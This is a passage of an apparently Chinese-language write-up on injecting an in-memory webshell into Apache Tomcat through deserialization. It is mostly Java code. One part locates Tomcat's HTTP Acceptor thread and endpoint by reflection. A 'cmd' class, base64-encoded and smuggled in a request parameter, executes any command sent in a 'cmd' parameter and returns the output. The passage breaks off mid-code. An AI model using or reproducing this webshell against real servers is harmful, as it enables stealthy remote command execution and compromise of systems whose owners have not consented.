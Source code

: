 ```
            clazz = clazz.getSuperclass();
        }
        return null;
    }

    public static Object GetAcceptorThread() {
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null || thread.getName().contains("exec")) {
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = getField(thread, "target");
                if (!(target instanceof Runnable)) {
                    try {
                        Object target2 = getField(thread, "this$0");
                        target = thread;
                    } catch (Exception e) {
                        continue;
                    }
                }
                Object jioEndPoint = getField(target, "this$0");
                if (jioEndPoint == null) {
                    try {
                        jioEndPoint = getField(target, "endpoint");
                    } catch (Exception e) {
                        continue;
                    }
                }
                return jioEndPoint;
            }
        }
        return null;
    }
}

```

cmd类代码实现

该类的字节码会被base64编码后，放在wangdefu请求参数中。在TD类中获取该参数并加载。

```
package deserialize;

import java.io.InputStream;
import java.util.Scanner;

public class cmd {
    public boolean equals(Object req) {
        Object[] context=(Object[]) req;
        org.apache.catalina.connector.Request request=(org.apache.catalina.connector.Request)context[0];
        org.apache.catalina.connector.Response response=(org.apache.catalina.connector.Response)context[1];
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                response.setContentType("text/html;charset=utf-8");
                InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\\\a");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().println("----------------------------------");
                response.getWriter().println(output);
```